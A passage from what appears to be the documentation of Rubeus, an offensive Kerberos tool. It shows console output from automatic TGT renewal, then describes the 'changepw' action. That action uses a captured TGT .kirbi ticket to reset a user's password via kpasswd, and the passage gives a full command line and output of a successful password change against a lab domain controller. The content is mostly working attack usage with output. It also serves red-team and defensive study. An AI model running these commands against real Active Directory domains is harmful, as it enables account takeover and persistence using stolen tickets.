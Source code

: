 
    [*] User       : harmj0y@TESTLAB.LOCAL
    [*] endtime    : 9/24/2018 3:34:05 AM
    [*] renew-till : 9/30/2018 10:34:05 PM
    [*] Sleeping for 165 minutes (endTime-30) before the next renewal
    [*] Renewing TGT for harmj0y@TESTLAB.LOCAL

    [*] Action: Renew TGT

    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building TGS-REQ renewal for: 'TESTLAB.LOCAL\harmj0y'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 1370 bytes
    [*] Received 1378 bytes
    [+] TGT renewal request successful!
    [*] base64(ticket.kirbi):

          doIFFjCCBRKg...(snip)...


    [*] User       : harmj0y@TESTLAB.LOCAL
    [*] endtime    : 9/24/2018 8:03:55 AM
    [*] renew-till : 9/30/2018 10:34:05 PM
    [*] Sleeping for 269 minutes (endTime-30) before the next renewal


## changepw

The **changepw** action will take a user's TGT .kirbi blog and execute a MS kpasswd password change with the specified /new:X value. If a /dc is not specified, the computer's current domain controller is extracted and used as the destination for the password reset traffic. This is the Aorato Kerberos password reset disclosed in 2014, and is equivalent to Kekeo's misc::changepw function.

    C:\Temp\tickets>Rubeus.exe changepw /ticket:doIFFjCCBRKgA...(snip)...== /new:Password123!

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.2.0

    [*] Action: Reset User Password (AoratoPw)

    [*] Changing password for user: harmj0y@TESTLAB.LOCAL
    [*] New password value: Password123!
    [*] Building AP-REQ for the MS Kpassword request
    [*] Building Authenticator with encryption key type: rc4_hmac
    [*] base64(session subkey): nX2FOQ3RsGxoI8uqIg1zlg==
    [*] Building the KRV-PRIV structure
    [*] Connecting to 192.168.52.100:464
    [*] Sent 1347 bytes
    [*] Received 167 bytes
    [+] Password change success!
